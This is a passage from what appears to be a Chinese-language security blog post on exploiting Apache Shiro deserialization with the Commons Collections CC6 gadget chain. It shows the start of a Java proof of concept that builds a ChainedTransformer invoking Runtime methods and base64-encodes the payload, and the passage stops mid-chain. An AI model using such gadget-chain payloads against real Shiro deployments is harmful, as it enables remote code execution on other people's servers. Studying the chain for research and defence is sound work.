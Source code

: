 ![image-20240312023613842](../blog_img/image-20240312023613842.png)

## Shiro中的Commons Collections

显然上面的例子中我们只是验证了反序列化漏洞的存在，那么在目标环境配有CC的条件下，我们是否可以利用之前的CC链来实现命令执行或代码执行呢？我们将上面代码中的核心部分换成CC6的相关代码，试下以下POC：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.crypto.BadPaddingException;
import javax.crypto.Cipher;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.security.InvalidAlgorithmParameterException;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import java.security.SecureRandom;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class Test {
    public static void main(String[] args) throws NoSuchPaddingException, NoSuchAlgorithmException, InvalidAlgorithmParameterException, InvalidKeyException, IllegalBlockSizeException, BadPaddingException, IOException, NoSuchFieldException, IllegalAccessException {
        System.out.println(tob64(cc6()));
    }


    private static byte[] cc6() throws IOException, NoSuchFieldException, IllegalAccessException {
        ChainedTransformer chainedTransformer = new ChainedTransformer(
                new Transformer[]{new ConstantTransformer(Runtime.class),
                        new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},
```